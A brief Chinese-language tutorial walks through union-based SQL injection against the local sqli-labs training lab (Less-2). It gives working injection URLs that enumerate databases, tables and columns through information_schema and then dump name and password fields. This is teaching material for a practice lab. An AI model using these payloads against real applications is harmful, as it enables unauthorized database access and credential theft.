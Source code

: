 # SQL注入之高权限注入

1.注入流程与上节实例相同



#### 查询所有数据库名称


![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645010203000/fdc981b9a55d426f8ac014bb61d6356f.png)

```
http://localhost/sqli-labs-master/Less-2/?id=-2%20union%20select%201,group_concat(schema_name),3%20from%20information_schema.schemata
```



#### 查询数据库对应的表名

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645010203000/5fd74715c4a24cb8bcebec4a7778a0f1.png)


```
http://localhost/sqli-labs-master/Less-2/?id=-2%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=0x74657374
```



#### 查询表名对应的字段名

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645010203000/8cbb187549814a32afc2cb0a82b7765b.png)

```
http://localhost/sqli-labs-master/Less-2/?id=-2%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=0x7431
```



#### 查询数据

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645010203000/1b9dc7926a544a1197a7f93a5be493d8.png)

```
http://localhost/sqli-labs-master/Less-2/?id=-2%20union%20select%201,name,pass%20from%20test.t1
```
